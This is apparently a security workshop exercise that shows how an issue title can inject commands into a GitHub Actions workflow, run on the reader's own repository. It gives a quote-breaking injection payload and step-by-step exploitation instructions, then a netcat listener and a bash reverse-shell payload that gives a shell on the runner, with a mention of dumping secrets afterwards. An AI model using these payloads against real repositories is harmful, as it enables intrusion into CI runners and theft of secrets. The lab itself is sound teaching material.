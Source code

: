 # Exercise 1 - :bomb: Exploiting the script injection vulnerability in the run command
The [Check issue title workflow](.github/workflows/check-issue-title.yml) uses the issue title in the `run` command as follows:
```
title="${{ github.event.issue.title }}"
```
Because this value is provided by the user when they create a new issue, this provides an opportunity for an attacker to exploit the workflow with by crafting an issue title that tricks the script into executing code where it's expecting data.

If we open an issue with the title...
```
octocat"; ls -l $GITHUB_WORKSPACE"
```
...the script looks like the following...
```
title="octocat"; ls -l $GITHUB_WORKSPACE""
```

This payload closes the initial quote, then ends the command with a semicolon. This allows the following `ls -s` command to run as a separate command.  

### Create an issue with the exploit payload
Let's see this in action by creating a new issue with this title and see what happens. Follow the steps below to exlpoit the script injection vulnerability in your repo:  
1. Go to the Issues tab and click the green `New issue` button in the top right.  
2. In the issue form type `octocat"; ls -l $GITHUB_WORKSPACE"` in the title field.  
3. Leave the description field empty and click the green `Create` button in the bottom rigth.  
4. Navigate to the Actions tab and select the `Check issue title` actions workflow on the left.  
5. Click on the workflow run.  
6. Click on the job `check-issue-title`.  
7. In the `check-issue-title` job lob, click the `>` to the left of `Check issue title` step to see the output.  
8. Observe that the workflow runs the command `ls -l $GITHUB_WORKSPACE`!  

<img width="1042" alt="Screenshot 2023-08-30 at 7 38 43 PM" src="https://github.com/robandpdx/workflow-script-injection/assets/95243761/e3fa3917-2834-45cc-a297-d25614c3185e">

Now let's look at the [Check issue title with action workflow](.github/workflows/check-issue-title-with-action.yml) which uses an [action](.github/actions/check-issue-title-action/action.yml) using the run command...
1. Navigate to the Actions tab and select the `Check issue title with action` actions workflow on the left.  
2. Click on the workflow run.  
6. Click on the job `check-issue-title`.  
7. In the `check-issue-title` job lob, click the `>` to the left of `Check issue title` step to see the output.  
8. Observe that the workflow runs the command `ls -l $GITHUB_WORKSPACE`!  

### What's the problem here?
Ok. Big deal. So we were able to see what is in the workspace directory. Who cares?  
Now let's try something a little more sinister...  
> **Note**: Because next part of this lesson requires a cloud VM with a public IP address, we will only demo this section in the workshop. We encourage you to go through this part of the exercise on your own after the workshop.  

1. Spin up a linux VM in the cloud that has a public IP address.
2. Open a command prompt and ssh into the VM
3. Run the command `nc -nvlp 1337` on the command prompt of the VM. This will cause the VM to listen on the port 1337.  
3. Next open a new issue in your repo with the title `octocat"; bash -i >& /dev/tcp/<YOUR-VM-IP-ADDRESS>/1337 0>&1 ; ls -l $GITHUB_WORKSPACE"`, replacing `<YOUR-VM-IP-ADDRESS>` with the public IP address of your cloud VM. This will cause the workflow to pipe the bash shell to your VM's IP address on port 1337.  
4. Now return to the command prompt window. As the worklfow runs, you will see your command prompt window drop into a shell on the runner. Now you have a shell on the runner! This is a great "foot in the door" from which I can attemp other exploits, like dumping secrets or cloud credentials to use in other attacks.  


